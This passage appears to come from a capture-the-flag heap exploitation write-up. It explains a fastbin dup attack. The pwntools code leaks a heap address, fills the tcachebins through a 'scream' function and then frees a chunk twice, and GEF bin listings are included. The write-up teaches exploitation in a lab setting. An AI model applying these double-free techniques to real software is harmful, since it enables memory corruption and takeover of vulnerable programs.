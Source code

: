 ```python
"""
```

### Fastbin Dup

What we could do next is to perform double free. However, this does not work
due to `tcachebins` mitigation. We could try to find a way to overwrite the `bk`
field which contain the key to prevent double free but this is not possible.
Unlike `tcachebins`, `fastbin` does not have the mechanism to detect double free.
So our goal now is to free the rating chunk into fastbin and perform double free
(also known as `fastbin dup`).

To achieve this, we would need to first fill up the `tcachebins` with chunks of size
`0x20`. Recall the `scream` function which enable us to allocate up to 50
arbitrary size chunks. Furthermore, this function also freed the allocated chunks
at the end, which is perfect for us.

```python
create(b"a" * 8)
create(b"b" * 8)
create(b"c" * 8)
delete(3)

show()
io.recvuntil(b"3: ")
heap_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
log.info(f"{heap_leak=:#x}")
heap = heap_leak << 12
log.info(f"{heap=:#x}")
user_chunk = heap + 0x370

# fill up tcachebins
payload = b"\n".join([cyclic(0x10)] * 7 + [b"quit"])
scream(payload)

# fastbin dup
delete(1)
delete(2)
delete(1) # <=== DOUBLE FREE!!!
```

Before scream
```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=0, size=0x20, @0x555555563090] count=1
 -> Chunk(addr=0x555555575530, size=0x20, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=1, size=0x30, @0x555555563098] count=1
 -> Chunk(addr=0x5555555752a0, size=0x30, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x5555555630a8] count=2
 -> Chunk(addr=0x5555555752d0, size=0x50, flags=PREV_INUSE, fd=0x555000020645, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575320, size=0x50, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
[+] Found 4 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
[+] Found 0 chunks in fastbin.
```
